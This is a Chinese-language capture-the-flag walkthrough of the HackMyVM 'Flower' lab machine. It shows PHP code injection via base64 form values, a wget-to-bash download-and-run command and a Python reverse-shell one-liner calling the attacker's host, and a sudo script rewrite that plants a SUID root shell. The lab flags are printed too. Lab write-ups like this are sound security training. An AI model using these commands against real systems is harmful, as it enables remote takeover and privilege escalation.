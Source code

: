 # Webmaster

2024-11-06 https://hackmyvm.eu/machines/machine.php?vm=Flower

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

查看 web 源代码，发现 selection 中对应的 value 值是 base64 编码，如第一项 MSsy 解码后为 1+2 选择后，返回的结果是 3，说明这里执行了 php 代码，存在漏洞，抓包修改 petals=c3lzdGVtKCdpZCcp (system('id')) 可以看到 www-data 的用户。

直接创建回连系统命令 system('wget -q -O - http://192.168.5.3/5.3/8888.sh|bash') base64 编码后为 c3lzdGVtKCd3Z2V0IC1xIC1PIC0gaHR0cDovLzE5Mi4xNjguNS4zLzUuMy84ODg4LnNofGJhc2gnKQ== 执行后得到了反弹的 shell。

/home/rose 目录中有 user flag 文件，但是没有读取权限，需要升级到此用户权限才行。

sudo -l 发现：

```
(rose) NOPASSWD: /usr/bin/python3 /home/rose/diary/diary.py

www-data@flower:/var/spool/cron$ cat /home/rose/diary/diary.py
import pickle

diary = {"November28":"i found a blue viola","December1":"i lost my blue viola"}
p = open('diary.pickle','wb')
pickle.dump(diary,p)
```

同时发现 /home/rose/diary 文件夹的权限是 777 所以我们可以直接在外层将整个文件夹删除 rm -rf /home/rose/diary

然后重新创建 diary.py 文件 内容如下：

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.3",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

sudo 执行得到了反弹的 7777 端口的 shell：

```
sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py
```

得到了 user flag：

```
rose@flower:~$ cat user.txt
HMV{R0ses_are_R3d$}
```

sudo -l 发现提权到 root 的路径：

```
(root) NOPASSWD: /bin/bash /home/rose/.plantbook
```

对 /home/rose/.plantbook 有修改权限，直接修改其内容为：

```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod  +xs /tmp/rootbash
```

sudo 执行：

```
rose@flower:~$ sudo /bin/bash /home/rose/.plantbook
rose@flower:~$ /tmp/rootbash -p
rootbash-5.0# cd /root
rootbash-5.0# ls
root.txt
rootbash-5.0# cat root.txt
HMV{R0ses_are_als0_black.}
```
